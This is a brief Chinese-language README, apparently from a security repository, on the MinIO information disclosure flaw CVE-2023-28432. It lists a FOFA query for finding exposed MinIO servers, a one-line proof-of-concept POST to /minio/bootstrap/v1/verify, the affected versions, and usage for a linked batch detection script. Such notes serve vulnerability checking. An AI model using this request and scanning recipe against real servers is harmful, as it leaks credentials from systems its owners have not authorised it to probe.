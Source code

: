 # MinIO云存储信息泄露漏洞 CVE-2023-28432
## 资产收集
fofa：`app="minio"`
![](./img/logo.png)
## POC
```
POST /minio/bootstrap/v1/verify HTTP/1.1
```
## 影响版本
MinIO 2019-12-17T23-16-33Z <= MinIO < 2023-03-20T20-16-18Z
## 检测脚本
[脚本](minio_unauthcheck.py)  
单个：`python3  minio_unauthcheck.py -u`  
批量：`python3 minio_unauthcheck.py -f url.txt`